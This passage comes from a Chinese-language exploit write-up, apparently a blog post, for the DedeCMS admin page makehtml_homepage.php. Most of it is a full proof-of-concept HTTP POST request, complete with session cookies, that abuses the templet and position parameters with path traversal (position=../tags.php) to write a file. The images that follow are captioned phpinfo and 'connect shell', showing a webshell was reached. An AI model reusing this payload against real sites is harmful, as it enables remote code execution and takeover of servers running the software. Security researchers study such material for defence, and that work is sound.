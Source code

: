   
### 第二步  利用漏洞点  
  
  
Poc:  
  

```
POST /dede/makehtml_homepage.php HTTP/1.1
Host: dedexin.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dedexin.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dedexin.com/dede/makehtml_homepage.php
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=2arsdvohnfcikal48h8hr7ubk0; _csrf_name_1c92fd8c=07275bb19eb1a468e0ca33f375d922d9; _csrf_name_1c92fd8c1BH21ANI1AGD297L1FF21LN02BGE1DNG=b4f481ed8fe16761; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=54d02982fb32518a; DedeLoginTime=1712737433; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=c773fe091ed4fc7c
Accept-Encoding: gzip, deflate, br
Content-Length: 53
Connection: close
dopost=make&templet=mu.gif&position=..%2Ftags.php&showmod=1
```

  
漏洞参数 templet  position  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PH6M3lQiaIvoPxPv0Iwtr7HICzrlPDqPkFMTAd6Eh3KPeMsHvE7xLYKw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PQp8M6T1n3lia2ib8gDnpJOoS4Ivoiblcu3u6tEyiaWCH6sUSJzDlNpBxTw/640?wx_fmt=png&from=appmsg "")  
  
  
  
Phpinfo  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28Pqf0q7Ox8Ms1dAMER8CmnuaA2iahmTMOIicFxJicyjCwWgEiclibcGEdBFpg/640?wx_fmt=png&from=appmsg "")  
  
  
  
连接shell  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PSDj7VwVQnkr13eRydkYCgnqvlW9Kxe9O7KUpu2JTVbRic6IeCaWN6Tg/640?wx_fmt=png&from=appmsg "")  
  
  